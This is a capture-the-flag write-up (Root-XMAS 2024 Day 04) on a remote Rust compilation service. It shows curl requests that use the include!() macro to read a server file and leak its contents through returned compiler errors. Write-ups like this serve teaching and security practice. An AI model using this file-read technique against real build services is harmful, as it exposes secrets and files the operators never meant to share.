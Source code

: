 ```yaml
---
title: Root-XMAS 2024 Day 04 - Build And Drustroy
feed: show
permalink: /RootXMAS_2024_04
date: 04-12-2024
summary: Rust is safe, so my project has no vulns.
---
```

### summary

A service where we can compile a Rust file, but it doesn't get executed.
However, we get the build errors returned, so we can get some compile time code generation containing the flag file with `include!()` macro. 
### recon

Yay , Rust, [I love Rust!](https://youtu.be/o-VizqRKekI?si=lBJ3Dr7f9eTfEhlk) 🦀
So we get an example usage of the service and its source code.

We send our Rust source code to the service and a compiled executable will be returned:

```bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary

	file binary
```

The source code is pretty verbose, that's Rust for you, but it means there is great error handling to make it safer!
The interesting bits:

```rust
	for filename in map.keys() {
		if !filename.ends_with(".rs") || filename.contains("..") {
			let mut response = Response::new(full("Grrrrr(ust)."));
			*response.status_mut() = StatusCode::FORBIDDEN;
```

Means we can upload multiple files, but can't do path traversal or upload another kind of file, like a new `Cargo.toml`

```rust
let cargo_toml = r#"
[package]
name = "temp_build"
version = "0.1.0"
edition = "2021"

[dependencies]
"#;
```

Speaking of which, the `cargo.toml` does not allow any dependency.

```rust
if !build_output.status.success() {
	let stderr = String::from_utf8_lossy(&build_output.stderr);
	...
	let mut response = Response::new(full(format!("Build failed: {}", stderr)));
	*response.status_mut() = StatusCode::BAD_REQUEST;
```

Now for the interesting part: the build error messages are returned in the request response!
That's nice, we can have the feedback of the great Rust compiler to fix our code!

Of course, we could also abuse it to execute macros and leak the flag!
### solution

As I was a bit... rusty, I googled "rust compile time code execution macro" and it lead on the Reddit post [Execute code once at compile time?](https://www.reddit.com/r/rust/comments/g19aal/execute_code_once_at_compile_time/) , explaining the use of the [include!](https://doc.rust-lang.org/std/macro.include.html) macro.

as its name suggests, it includes content of a file as code at build time.
It is used to add Rust files from anywhere in the file system, with apparently legitimate use for including documentation and build artifact files.

Now if our included file happened not to be valid rust code, build would fail and the compiler would nicely tell us what would be the problem :)

let's try it!

```bash
curl -sSk ... -d '{"src/main.rs":"fn main() { include!(\"/flag.txt\"); }"}'
	Build failed:    Compiling temp_build
	error: couldn't read /flag.txt: No such file or directory
	 --> src/main.rs:1:13
	1 | fn main() { include!("/flag.txt"); }
```

Oh wait, where is the flag?
Silly me, the path was in the `docker-compose.yml` !

```yaml
volumes:
- ./flag.txt:/flag/randomflaglolilolbigbisous.txt
```

```bash
curl -sSk -d '{"src/main.rs":"fn main() { include!(\"/flag/randomflaglolilolbigbisous.txt\"); }"}'
	Build failed:    Compiling temp_build
	error[E0425]: cannot find value `OffenSkillSaysHi2024RustAbuse` in this scope
	 --> /flag/randomflaglolilolbigbisous.txt:1:1
	  |
	1 | OffenSkillSaysHi2024RustAbuse
	  | ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ not found in this scope
```

As simple as one macro call!